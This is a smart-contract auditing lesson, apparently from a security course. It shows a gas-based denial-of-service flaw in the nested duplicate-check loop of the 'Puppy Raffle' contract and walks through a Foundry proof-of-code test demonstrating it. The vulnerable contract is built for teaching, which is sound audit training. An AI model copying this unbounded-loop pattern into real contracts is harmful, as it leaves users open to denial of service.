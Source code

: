 ```yaml
---
title: DoS - PoC (Proof of Code)
---
```


_Follow along with this video:_

---

### Back to Puppy Raffle

Now that we possess a little more context and understanding of what a `Denial of Service` attack is, and what it can mean for a protocol, let's return to Puppy Raffle and remind ourselves where we began.

```js
/// @notice this is how players enter the raffle
/// @notice they have to pay the entrance fee * the number of players
/// @notice duplicate entrants are not allowed
/// @param newPlayers the list of players to enter the raffle
function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```

This should look very familiar to us by now:

```js
// Check for duplicates
// @audit Possible DoS
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
}
```

At this point I would add this to my `notes.md`, you may want to come back to this later and continue assessing the code back, but let's go ahead and prove this finding now.

### Proof of Code

If the protocol has an existing test suite, it's often easier to add our tests to it then write things from scratch.

Run `forge test` to make sure the test suite is working correctly so far!

There are lots of useful parts of `PuppyRaffle.t.sol` we can use for our PoC.

Now, here's your challenge. I want you to try and write the `Proof of Code` yourself. Build those skills by trying to write a test function that shows the potential `Denial of Service` we've uncovered.

<details>
<summary> The Proof of Code </summary>

Great! Now that you've _100%_ tried this yourself, let's go through it together.

I would start by harvesting the existing `testCanEnterRaffle` function. This is a great boilerplate for what we're trying to show.

```js
function testCanEnterRaffle() public {
    address[] memory players = new address[](1);
    players[0] = playerOne;
    puppyRaffle.enterRaffle{value: entranceFee}(players);
    assertEq(puppyRaffle.players(0), playerOne);
}
```

Let's repurpose this!

```js
function testDenialOfService() public {
    // Foundry lets us set a gas price
    vm.txGasPrice(1);

    // Creates 100 addresses
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for(uint i = 0; i < players.length; i++){
        players[i] = address(i);
    }

    // Gas calculations for first 100 players
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasEnd = gasleft();
    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost of the first 100 players: ", gasUsedFirst);
}
```

Running the command `forge test --mt testDenialOfService -vvv` should give us an output like this:

<img src="/static/security-section-4/13-dos-poc/dos-poc1.png" style="width: 75%; height: auto;">

Now let's do the same thing for the second 100 players! We'll need to add something like this to our test.

```js
// Creats another array of 100 players
address[] memory playersTwo = new address[](playersNum);
for (uint256 i = 0; i < playersTwo.length; i++) {
    playersTwo[i] = address(i + playersNum);
}

// Gas calculations for second 100 players
uint256 gasStartTwo = gasleft();
puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
uint256 gasEndTwo = gasleft();
uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
console.log("Gas cost of the second 100 players: ", gasUsedSecond);

assert(gasUsedFirst < gasUsedSecond);
```

If we rerun our test we can see.. Our test passes! The second 100 players are paying _a LOT_ more and are at a significant disadvantage!

<img src="/static/security-section-4/13-dos-poc/dos-poc2.png" style="width: 75%; height: auto;">

</details>

---

### Wrap Up

That's all there is to it. We've clearly shown a potential `Denial of Service` through our `Proof of Code`. This test function is going to go right into our report.

Let's do that now!

